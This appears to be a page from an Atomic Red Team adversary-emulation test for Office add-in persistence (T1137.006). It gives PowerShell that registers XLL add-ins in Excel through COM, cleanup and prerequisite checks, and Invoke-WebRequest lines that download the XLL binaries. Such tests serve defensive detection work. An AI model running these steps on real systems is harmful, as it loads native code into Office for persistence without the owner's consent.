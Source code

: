 ```powershell
$excelApp = New-Object -COMObject "Excel.Application"
if(-not $excelApp.path.contains("Program Files (x86)")){
    Write-Host "64-bit Office"
    $excelApp.RegisterXLL("PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x64.xll")
}
else{
  Write-Host "32-bit Office"
  $excelApp.RegisterXLL("PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x86.xll")
}
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "notepad","Excel" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Excel must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"
```
##### Description: XLL files must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if ((Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x64.xll") -and (Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x86.xll")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1137.006\bin\Addins\" -Force | Out-Null
Invoke-Webrequest -Uri "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1137.006/bin/Addins/excelxll_x64.xll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x64.xll"
Invoke-Webrequest -Uri "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1137.006/bin/Addins/excelxll_x86.xll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x86.xll"
```



